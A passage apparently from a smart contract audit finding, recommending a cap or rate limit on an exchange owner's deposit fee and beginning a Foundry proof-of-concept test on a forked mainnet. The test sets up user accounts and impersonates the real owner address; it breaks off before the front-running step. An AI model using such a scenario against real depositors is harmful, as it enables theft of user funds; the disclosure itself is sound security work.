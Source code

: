 # Recommendation
Add hard-limit to deposit fee to bound attack vector or otherwise rate-limit how often/fast the deposit fee can be changed by owner.

# Reference
Contracts in scope, Foundry

# Proof of concept
1. Create empty Foundry project: `forge init`
2. Start local anvil fork of mainnet: `anvil --fork-url <mainnet rpc url>`
3. Add the following test suite instead of template:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.20;

import {Test, console} from "forge-std/Test.sol";

interface IDefaultDepositContract {}

interface IExchange {
    function getPendingDepositAmount(address from, address tokenAddress) external returns (uint248);

    function setDepositParams(uint256 freeDepositMax, uint256 freeDepositRemained, uint256 freeSlotPerBlock, uint256 depositFee) external;

    function deposit(address from, address to, address tokenAddress, uint248 amount, bytes calldata extraData) external payable;

    function withdrawExchangeFees(address token, address recipient) external;
}


contract PoC is Test {
    IDefaultDepositContract private immutable defaultDepositContract = IDefaultDepositContract(0x54D7aE423Edb07282645e740C046B9373970a168);
    IExchange private immutable exchange = IExchange(0x9C07A72177c5A05410cA338823e790876E79D73B);

    function setUp() external {}

    function testMaliciousOwnerFrontrunUsers() external {
        // Setup accounts
        console.log("------Setting up accounts------");
        address bob = makeAddr("bob");  
        vm.label(bob, "bob");
        address alice = makeAddr("alice");  
        vm.label(alice, "alice");
        address exchangeOwner = 0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD;
        vm.label(exchangeOwner, "exchangeOwner");

        address ethDepositAddress = address(0);

        // Bob and Alice both given 5 ether to deposit
        uint248 depositAmount = 5 ether;
        deal(bob, depositAmount);
        deal(alice, depositAmount);
        uint256 bobBalanceBefore = bob.balance;   
        uint256 aliceBalanceBefore = alice.balance; 
        uint256 depositBalanceBefore = address(defaultDepositContract).balance;
        uint256 exchangeOwnerBalanceBefore = exchangeOwner.balance;
```